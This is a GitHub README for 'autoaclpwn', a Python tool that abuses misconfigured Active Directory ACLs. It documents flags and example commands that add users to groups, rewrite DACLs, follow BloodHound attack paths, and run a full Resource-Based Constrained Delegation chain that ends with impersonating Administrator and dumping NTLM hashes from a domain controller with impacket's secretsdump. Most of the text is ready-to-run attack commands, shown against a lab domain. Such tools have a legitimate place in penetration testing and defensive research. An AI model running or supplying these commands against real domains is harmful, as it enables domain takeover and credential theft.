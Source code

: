 # autoaclpwn
This is a tool for exploiting misconfigured ACLs in Active Directory. You can manually add users to a group, export a graph from BloodHound and use it to add the user to several groups, or import a BloodHound graph to perform an entire Resource-Based Constrained Delegation attack chain, up to and including dumping secrets.

## Setup
```
git clone https://github.com/jhicks_r7/autoaclpwn
pip3 install -r requirements.txt
python3 autoaclpwn.py -h
```

## Usage
The following arguments are required for every mode autoaclpwn.py can run in:

```
-u USER, --user USER  username to add/modify group
-p PASSWORD, --password PASSWORD
                        The user's password
-d DOMAIN, --domain DOMAIN
                        Target domain name
-dc-ip DC IP          Domain Controller IP address

```

### Manually adding a user to a group or modifying DACLs

If you would like to manually add a user to a group, modify a DACL, or both, you can use the following flags:
```
--add-member          Add the member to the group
--modify-dacl         Modify the DACL to add addmember permission
-g GROUP, --group GROUP
                        Target group name. Required if not using BloodHound file
```

Example command:

```
python3 autoaclpwn.py -u username -p 'P@ssword' -d hackerlab.local -dc-ip 172.16.1.10 -g 'Cool Person Group' --add-member --modify-dacl
```

### Automatically adding a user to/modifying DACLs of multiple groups
If you have an exported BloodHound graph, in JSON format, you can utilize the -b flag to add the member to a series of groups.

__A note on BloodHound JSON graphs__: For best results, ensure that your graph starts with the user that you have credentials for and want to modify and ends with either the last group you would like them to be added to, or a computer that you wish to perform additional exploitation on. The easiest way to get this is to use BloodHound's path tool and export the resulting path. Additionally, the graph should have a __single__ path of edges from the user to the final target. Having multiple paths may or may not produce undesirable results.

As of this time, autoaclpwn supports the following BloodHound edges:
* MemberOf
* GenericWrite
* GenericAll
* AddMember
* AddSelf
* WriteDacl

Example command:
```
python3 autoaclpwn -u username -p 'P@ssword' -d hackerlab.local -dc-ip 172.16.1.10 -b graph.json
```

### Performing additional Resourced-Based Constrained Delegation steps
In addition to using a BloodHound graph, autoaclpwn can perform the following steps if your target ends in a computer that you will have gained GenericWrite or some functionally equivalant permissions, you can invoke various impacket commands to automatically perform the attack:

```
--add-computer        Add a computer to the account
--computer-name COMPUTER NAME
                        The name of the computer to add. Use with --add-computer
--computer-pass COMPUTER PASS
                        The password for the computer to be added. Use with --add-computer
--rbcd                Perform Resource-Based Constrained Delegation attack against the target. Requires --add-computer
--getst               Runs impacket's getST.py. Requires --add-computer and --rbcd
--impersonate USER TO IMPERSONATE
                        User to impersonate, used with --getST
--secretsdump         Dump secrets from a Domain Controller. Uses secretsdump.py
--fullauto            DO ALL THE THINGS. Probably dont do this in real life. Should also only target a DC at the moment
```

In addition, if using getST you must provide --impersonate, and can optionally provide an spn service:
```
 -spn-service SERVICE  The service to use as the service portion of the SPN for getST. Default: cifs
```

If using secretsdump, you can provide options for what you would like to dump:

```
-just-dc              Extract only NTDS.DIT data (NTLM hashes and Kerberos Keys)
-just-dc-ntlm         Extract only NTDS.DIT data (NTLM hashes only)
-just-dc-user USER    Extract only NTDS.DIT data for the user specified                                                                             
```

Example command:
```
python3 ~/autoaclpwn/autoaclpwn.py -u username -p 'P@ssword' -d hackerlab.local -dc-ip 172.16.1.10 -b graph.json --fullauto --impersonate Administrator -just-dc-ntlm
```

__Warning__: at the moment, if your graph ends in a group and not a computer, invoking these options will provide a warning, but allow you to attempt it anyways (it won't work). If your user account does not have the proper permissions to perform the options you selected, the script will still try and run them. It should just fail, but dont' hold me accountable if it does something weird.

## References/Sources
aclpwn:   https://github.com/fox-it/aclpwn.py
rbcd.py:  https://github.com/tothi/rbcd-attack/
impacket: https://github.com/SecureAuthCorp/impacket     
